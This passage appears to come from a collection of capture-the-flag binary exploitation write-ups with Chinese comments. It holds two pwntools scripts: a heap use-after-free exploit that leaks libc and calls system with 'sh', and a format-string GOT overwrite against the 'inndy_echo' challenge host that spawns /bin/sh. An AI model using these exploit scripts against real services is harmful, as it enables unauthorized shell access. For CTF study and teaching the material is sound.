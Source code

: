 ```python
def Delete(index):
        r.recvuntil('Your choice :')
        r.sendline('2')
        r.recvuntil('Index :')
        r.sendline(str(index))

def Print(index):
        r.recvuntil('Your choice :')
        r.sendline('3')
        r.recvuntil('Index :')
        r.sendline(str(index))

Add(16,'aaaa')
Add(16,'bbbb')
Delete(0)
Delete(1)

#fastbin：0x10  chunk1 p --> chunk 0 p 
#chunk2的p指向chunk1的p，chunk2的content指向chunk0的p
Add(8,p32(puts_addr)+p32(atoi_got))
#泄露atoi
Print(0)

atoi_addr=u32(r.recv(4))
system_addr= atoi_addr - atoi_sym + system_sym
print("[+] system_addr: ",system_addr)

Delete(2)
Add(8,p32(system_addr)+'||sh')
Print(0)

r.interactive()
```
[https://www.jianshu.com/p/d8726a162f04](https://www.jianshu.com/p/d8726a162f04)


## inndy_echo
printf存在格式字符串漏洞,将printf_got修改成system的地址，在传入/bin/sh就可以getshell
```python
r=remote('node3.buuoj.cn',26649)
#r=process('./echo')
elf=ELF('./echo')
printf_got=elf.got['printf']
system_addr=elf.plt['system']

payload=fmtstr_payload(7,{printf_got:system_addr})
r.sendline(payload)
r.sendline('/bin/sh\x00')

r.interactive()
```
